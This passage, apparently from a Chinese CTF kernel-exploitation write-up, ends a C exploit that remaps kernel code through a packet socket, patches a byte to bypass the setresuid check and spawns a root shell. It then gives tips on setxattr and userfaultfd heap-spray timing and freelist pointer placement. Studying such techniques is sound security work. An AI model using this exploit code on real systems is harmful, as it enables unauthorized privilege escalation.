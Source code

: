 ```c
        info("Mmaping kernel code in user mode...");
        char *page = mmap(NULL, 0x1000 * (size / 8), PROT_READ | PROT_WRITE, MAP_SHARED, packet_fd, 0);
        page[0xFFFFFFFF81086FD8 - 0xFFFFFFFF81086000] = 0xeb;

        info("Exploit in child is ending...");
        write(pipe_fd[1], "E", 1);
        // sleep(0x200);
        pause();
    }
    else if (pid < 0)
    {
        err_exit("Failed to create child process.");
    }
    else
    {
        char buf[1];
        read(pipe_fd[0], buf, 1);
        info("Parent process trying to get root...");
        setresuid(0, 0, 0);

        info("Show the uid now...");
        if (!getuid())
        {
            success("You are root now!");
            get_root_shell();
        }
        else
        {
            info("Your uid is: %d.", getuid());
            error("Why are you not root?");
        }

        exit(0);
    }
}
```

## 0x04. demo Q & A

都是个人遇到的问题，这里简单总结下

- 为什么第一个`setxattr`要睡眠`3`秒？

提高成功率，使得`setxattr`的`obj`一旦释放时，就马上对`freelist`进行了申请。



- 为什么得到奇怪的报错导致内核崩溃？

检查两点，首先`setxattr+uffd`改写结构体时，结构体部分需要包含在不会阻塞的地方；

其次`setxattr+uffd`申请时，要注意`freelist`的`pointer`的位置，其不能位于会阻塞的地方。例如本题目中`kmalloc-512`的`freelist pointer`位于`33*8=0x108`的位置，因此`uffd`地址在填充时要让大于`0x108`的内容在非阻塞的位置。
